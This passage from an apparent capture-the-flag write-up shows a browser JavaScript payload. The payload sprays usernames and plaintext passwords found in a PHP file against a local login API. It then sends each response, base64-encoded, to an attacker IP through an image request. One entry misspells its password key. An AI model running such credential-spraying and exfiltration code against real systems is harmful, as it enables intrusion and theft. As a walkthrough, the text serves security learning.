 ```json
en la cabecera 'Authorization'. Ejemplo: { \"command\": \"ls -la\", \"token\": \"token_jwt\" }"
      }
   }
}
```

Sembla el manual d’una API interna que permet executar ordres. Tornem a modificar el nostre fitxer `script.js` per intentar validar algun dels usuaris trobats al fitxer `/var/www/html/index.php`.

A més, com que internament s’utilitza la versió ASCII dels noms d’usuari, afegim a la llista els noms transformats a ASCII i també la seva versió en minúscules.

```javascript
const users = [
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Łukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Þór", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "Ægir", ipasd: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Çetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "José", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "Lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "Thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "AEgir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "Cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "Jose", pas: "FuLqqEAErWQsmTQQQhsb" },
    // Versión en ASCII de los nombres de usuarios y en minusculas.
    { nombre: "admin", pas: "dUnAyw92B7qD4OVIqWXd" },
    { nombre: "lukasz", pas: "dQnwTCpdCUGGqBQXedLd" },
    { nombre: "thor", pas: "EYNlxMUjTbEDbNWSvwvQ" },
    { nombre: "aegir", pas: "DXwgeMuQBAtCWPPQpJtv" },
    { nombre: "cetin", pas: "FuLqqEAErWQsmTQQQhsb" },
    { nombre: "jose", pas: "FuLqqEAErWQsmTQQQhsb" }
];

function testUser(user) {
    let xhr = new XMLHttpRequest();
    xhr.open("POST", "http://localhost:3000/login", true);
    xhr.setRequestHeader("Content-Type", "application/json");
    xhr.onload = () => {
        if (xhr.status >= 200)
            new Image().src = `http://192.168.1.181/?user=${user.username}&response=${btoa(xhr.responseText)}`
    }
    xhr.send(JSON.stringify(user));
}

users.forEach(async user => {
    // Envía la petición con el body en JSON
    testUser({
        username: user.nombre,
        password: user.pas
    });
});
```

